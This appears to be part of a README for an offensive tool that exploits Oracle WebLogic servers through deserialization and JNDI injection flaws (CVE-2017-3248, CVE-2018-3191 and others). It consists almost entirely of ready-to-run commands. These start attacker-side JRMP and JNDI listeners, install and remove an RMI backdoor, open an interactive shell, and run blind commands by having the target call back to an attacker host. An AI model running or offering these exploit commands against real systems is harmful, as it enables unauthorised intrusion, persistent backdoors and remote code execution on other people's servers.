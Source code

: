 ### JRMP Deserialization：CVE-2017-3248、CVE-2018-2893、CVE-2018-3245，The target plane needs to come out of the net.

Installing the rmi backdoor and accessing the interactive shell

```
# JRMPServer listening 8012 port
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "install"
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -T CVE-2017-3248 -jrmphost "ip" -jrmpport 8012 -shell
```

Uninstall rmi backdoor

```
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "uninstall"
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -T CVE-2017-3248 -jrmphost "ip" -jrmpport 8012 -U
```

No echo command execution

```
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "touch /tmp/exploit"
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2017-3248 -jrmphost "ip" -jrmpport 8012 -B
```

### JNDI Injection：CVE-2018-3191、CVE-2020-2551、CVE-2020-14645、CVE-2020-14825、CVE-2020-14841，The target plane needs to come out of the net.

Installing the rmi backdoor and accessing the interactive shell

```
# JNDIServer listening port
java -jar JNDIServer-0.1.jar -A JNDIServerip -hport httpport -rport rmiport -lport ldapport
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2018-3191 -jndi "rmi://x.x.x.x:1099/install" -shell
```

Uninstall rmi backdoor

```
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2018-3191 -jndi "rmi://x.x.x.x:1099/uninstall" -U
```
